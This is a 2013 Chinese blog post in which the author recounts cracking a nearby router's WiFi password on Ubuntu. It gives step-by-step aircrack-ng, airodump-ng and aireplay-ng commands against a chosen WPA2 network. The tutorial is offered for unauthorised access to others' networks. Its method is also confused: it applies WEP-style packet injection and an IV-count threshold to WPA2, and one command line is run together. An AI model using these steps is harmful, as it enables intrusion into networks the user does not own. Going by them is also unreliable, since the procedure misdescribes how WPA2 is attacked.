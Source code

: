 ```yaml
---
date: "2013-05-20 16:08:08"
toc: true
id: 99
slug: /posts/我这是要转-ubuntu-的节奏吗
aliases:
    - /archives/2013/05/99/
tags:
    - Ubuntu
    - 运维
    - Linux
title: 我这是要转 Ubuntu 的节奏吗
---
```


破了电信还是不爽，没事上午体育课的时候鼓捣了下破路由器的密码。大爱ubuntu。

1.下载安装aircrack-ng。

sudo apt-get install aircrack-ng
 
2.启动无线，垃圾微软禁用开启无线，ubuntu直接调用爽歪歪，开启完成后进入ubuntu ，开一个终端，ifconfig -a看看wlan是否开启，开启正常可进行下一步。

3.准备工作完成，开始破解。开启终端1，

sudo airmon-ng start wlan0sudo airodump-ng mon0
 
这时会看到无线的地址出现在屏幕上，这里有显示它们的mac地址以及所在频道。现在大部分的路由都是wpa2的加密方式，果断选择类型为wpa2的无线为破解对象。我们需要记录它所在的频道以及mac地址。

4.开启终端2

sudo airodump-ng --channel 【频道】 --bssid 【目标主机mac地址】 -w wpa2 mon0
 
这里的wpa2为默认的存包文件的名字，可以更改。

5.开启终端3

sudo aireplay-ng -1 0 -a 【目标mac】 -h 【本机MAC地址】 mon0
（本机的mac可以开启一个新的终端用ifconfig -a来查询）

这时会有成功字样显示，如果没有显示可能就是目标不支持或者系统部稳定，需要更换目标了。显示成功后进行下步。

6.继续输入

sudo aireplay-ng -2 -F -p 0841 -c ff:ff:ff:ff:ff:ff -b 【目标MAC地址】 -h 【本机MAC地址】 mon0
此时终端2中的数据会增长很快，当数据到达5000的时候就可以破解了。

7.开启终端4

sudo aircrack-ng wpa2*.cap
这时就开始破解了，如果你进行过多组，可能会有多组结果，你可以用数字123进行选择，如果不出意外你已经破解出来这组无线的密码了。

8.最后 结束监控过程

sudo airmon-ng stop mon0
( sudo airomon-ng check可以查看你开启了多少监控，如果运行多组的时候可以查看后选择关闭)。  